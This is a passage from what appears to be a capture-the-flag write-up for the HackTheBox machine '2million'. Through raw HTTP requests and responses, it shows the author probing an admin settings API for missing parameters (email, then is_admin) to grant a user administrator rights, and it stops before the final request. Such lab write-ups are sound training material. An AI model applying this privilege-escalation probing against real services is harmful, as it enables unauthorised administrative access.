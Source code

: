 #### Response
```ruby
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 16 Jun 2023 16:03:10 GMT
Content-Type: application/json
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 56

{"status":"danger","message":"Missing parameter: email"}
```

Now i pass my email and i got `Missing parameter: is_admin`.

#### Request
```ruby
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=jli1t3sd64rig7par67u26nfv0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 33

{
"email":"wln5t0n@htb.com"
}
```

#### Response
```ruby
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 16 Jun 2023 16:05:39 GMT
Content-Type: application/json
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 59

{"status":"danger","message":"Missing parameter: is_admin"}
```

Now i passed `is_admin` and i got `Variable is_admin needs to be either 0 or 1.`
